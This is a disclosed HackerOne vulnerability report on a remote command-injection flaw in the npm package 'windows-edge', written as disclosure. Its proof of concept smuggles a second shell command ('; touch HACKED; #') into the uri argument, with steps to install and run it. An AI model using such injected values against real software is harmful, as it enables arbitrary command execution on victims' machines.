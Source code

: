 # [windows-edge] RCE via insecure command formatting

## Report Details
- **Report ID**: 878420
- **URL**: https://hackerone.com/reports/878420
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-05-19T22:34:12.863Z
- **Disclosed**: 2020-08-24T22:04:31.879Z

## Reporter
- **Username**: mik317
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `RCE` issue in the `windows-edge` module.
It allows to execute `arbitrary commands remotely inside the victim's PC`

# Module
**module name:** `windows-edge`
**version:** `1.0.1`
**npm page:** `https://www.npmjs.com/package/windows-edge`

## Module Description
> Launch a new Microsoft Edge tab on Windows

## Module Stats
[102] downloads in the last week

## Vulnerability Description
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/eugeneware/windows-edge/blob/master/index.js#L8

## Steps To Reproduce:
1. Create the following PoC file:

```js
// poc.js
const edge = require('windows-edge');
edge({ uri: 'https://github.com/; touch HACKED; #' }, (err, ps) => {})

```
1. Check there aren't files called `HACKED` 
1. Execute the following commands in another terminal:

```bash
npm i windows-edge # Install affected module
node poc.js #  Run the PoC
```
1. Recheck the files: now `HACKED` has been created :) {F835199}

## Patch
> Don't format `commands` using insecure `user's inputs` :)

## Supporting Material/References:
- [OPERATING SYSTEM VERSION]: Kali Linux
- [NODEJS VERSION]: v12.16.1
- [NPM VERSION]: 6.13.4

# Wrap up
- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

`RCE` via command formatting on `windows-edge`

## Attachments
- Screenshot_from_2020-05-20_00-27-21.png
